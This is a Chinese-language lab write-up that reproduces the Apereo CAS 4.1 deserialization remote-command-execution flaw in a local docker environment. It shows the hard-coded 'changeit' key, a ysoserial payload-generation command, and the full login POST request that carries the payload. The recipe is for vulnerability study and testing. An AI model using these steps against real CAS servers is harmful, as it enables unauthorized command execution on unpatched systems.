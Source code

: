 # Apereo CAS 4.1 反序列化命令执行漏洞

Apereo CAS是一款Apereo发布的集中认证服务平台，常被用于企业内部单点登录系统。其4.1.7版本之前存在一处默认密钥的问题，利用这个默认密钥我们可以构造恶意信息触发目标反序列化漏洞，进而执行任意命令。

参考链接：

- https://apereo.github.io/2016/04/08/commonsvulndisc/

## 环境搭建

执行如下命令启动一个Apereo CAS 4.1.5：

```
docker compose up -d
```

环境启动后，访问`http://your-ip:8080/cas/login`即可查看到登录页面。

## 漏洞复现

漏洞原理实际上是Webflow中使用了默认密钥`changeit`：

```java
public class EncryptedTranscoder implements Transcoder {
    private CipherBean cipherBean;
    private boolean compression = true;

    public EncryptedTranscoder() throws IOException {
        BufferedBlockCipherBean bufferedBlockCipherBean = new BufferedBlockCipherBean();
        bufferedBlockCipherBean.setBlockCipherSpec(new BufferedBlockCipherSpec("AES", "CBC", "PKCS7"));
        bufferedBlockCipherBean.setKeyStore(this.createAndPrepareKeyStore());
        bufferedBlockCipherBean.setKeyAlias("aes128");
        bufferedBlockCipherBean.setKeyPassword("changeit");
        bufferedBlockCipherBean.setNonce(new RBGNonce());
        this.setCipherBean(bufferedBlockCipherBean);
    }

    // ...
```

我们使用[Apereo-CAS-Attack](https://github.com/vulhub/Apereo-CAS-Attack)来复现这个漏洞。使用ysoserial的CommonsCollections4生成加密后的Payload：

```
java -jar apereo-cas-attack-1.0-SNAPSHOT-all.jar CommonsCollections4 "touch /tmp/success"
```

![](1.png)

然后我们登录CAS并抓包，将Body中的`execution`值替换成上面生成的Payload发送：

```
POST /cas/login HTTP/1.1
Host: your-ip
Content-Length: 2287
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://your-ip:8080
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.89 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://your-ip:8080/cas/login
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Cookie: JSESSIONID=24FB4BAAE1A66E8B76D521EE366B3E12; _ga=GA1.1.1139210877.1586367734
Connection: close

username=test&password=test&lt=LT-2-gs2epe7hUYofoq0gI21Cf6WZqMiJyj-cas01.example.org&execution=[payload]&_eventId=submit&submit=LOGIN
```

![](2.png)

登录Apereo CAS，可见`touch /tmp/success`已成功执行：

![](3.png)
